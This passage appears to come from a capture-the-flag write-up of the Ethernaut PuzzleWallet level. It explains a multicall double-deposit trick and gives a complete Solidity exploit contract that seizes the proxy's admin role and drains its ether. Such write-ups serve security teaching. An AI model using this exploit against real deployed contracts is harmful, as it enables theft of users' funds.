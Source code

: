 Due to the `require` statement, we can't call `deposit()` twice directly. However, if we pass the calldata to invoke `deposit()` as the first element of the `data` array, and then pass the calldata to invoke `multicall()` with the argument as calldata to invoke `deposit()`, we can bypass the `require` check. This way, we can set our balance to 2 ether by sending only 1 ether.

Now, if we check the balance of the `PuzzleProxy` contract, it is 0.001 ether. So, we need to deposit 0.001 ether to make our balance 0.002 ether and then withdraw all the ether.

{{< centered-image "/Ethernaut/PuzzleWallet/img3.png" "My Centered Image" >}}

Now let's write our exploit contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IProxy{
    function proposeNewAdmin(address) external;
    function approveNewAdmin(address) external ;
    function setMaxBalance(uint256) external;
    function addToWhitelist(address) external;
    function deposit() external payable ;
    function execute(address, uint256, bytes calldata) external payable;
    function multicall(bytes[] calldata) external payable;
    function admin()external view returns(address);
}



contract ExploitPuzzleProxy{
    IProxy proxy;
    address player;
    constructor(address _proxy){
        proxy=IProxy(_proxy);
        player=msg.sender;
    }

    function Exploit()public payable{
        proxy.proposeNewAdmin(address(this));
        proxy.addToWhitelist(address(this));

        bytes[] memory main_data=new bytes[](2);
        bytes[] memory second_deposit=new bytes[](1);
        second_deposit[0]=abi.encodeWithSignature("deposit()");

        main_data[0]=second_deposit[0];
        main_data[1]=abi.encodeWithSignature("multicall(bytes[])",second_deposit);

        proxy.multicall{value:0.001 ether}(main_data);
        proxy.execute(player,0.002 ether,"");
        uint256 Player_Address=uint256(uint160(player));
        proxy.setMaxBalance(Player_Address);
        require(proxy.admin()==player, "Exploit Failed");
    }
}


```
